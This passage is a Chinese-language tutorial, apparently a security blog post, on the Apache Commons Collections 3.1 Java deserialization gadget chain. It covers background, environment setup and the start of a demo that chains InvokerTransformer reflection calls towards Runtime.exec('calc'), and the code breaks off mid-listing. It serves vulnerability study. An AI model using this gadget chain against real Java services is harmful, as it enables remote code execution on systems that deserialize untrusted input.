 ```yaml
---
layout: mypost
title: Java反序列化CC链分析
categories: [Java特性学习]

---
```


### 一：概述

Apache Commons是Apache软件基金会的项目，曾经隶属于Jakarta项目。Commons 的目的是提供可重用的、解决各种实际的通用问题且开源的Java代码。Commons由三部分组成：Proper（是一些已发布的项目）、Sandbox（是一些正在开发的项目）和 Dormant（是一些刚启动或者已经停止维护的项目）。

Commons Collections包为Java标准的Collections API提供了相当好的补充。在此基础上对其常用的数据结构操作进行了很好的封装、抽象和补充。让我们在开发应用程序的过程中，既保证了性能，同时也能大大简化代码。

CC链的前提是序列化或者反序列化：

序列化需要两个条件：

1、该类必须实现 java.io.Serlalizable接口

2、该类的所有属性必须是可序列化的，如果有不可序列化的属性必须注明是短暂的

### 二：环境搭建

下边我们以Apache Commons collections 反序列化漏洞为例，先去下边地址下载commons-collections-3.1.zip文件：

https://archive.apache.org/dist/commons/collections/binaries/commons-collections-3.1.zip

下载完成后解压，然后IDEA新建一个Java项目导入commons-collections-3.1.jar包,如图：

![Java特性_CC链_1.png](Java特性_CC链_1.png)

我使用的jdk版本为：1.8.0_281

然后在src-com-company下创建一个class文件，内容如下：

ApacheCommonsCollectionsDemo.java

```java
package com.company;

import java.util.HashMap;
import java.util.Map;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections.map.TransformedMap;

public class ApacheCommonsCollectionsDemo {
    public static void main(String[] args) {

        //((Runtime) Runtime.class.getMethod("getRuntime").invoke()).exec("calc")
        //构造恶意的chain
        Transformer[] transformers = new Transformer[] {
                //通过内置的ConstantTransformer来获取Runtime类
                new ConstantTransformer(Runtime.class),
                //通过InvokerTransformer来反射调用getMethod方法，参数是getRuntime，其后类似
                new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class}, new Object[] {"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class}, new Object[] {null,new Object[0]}),
```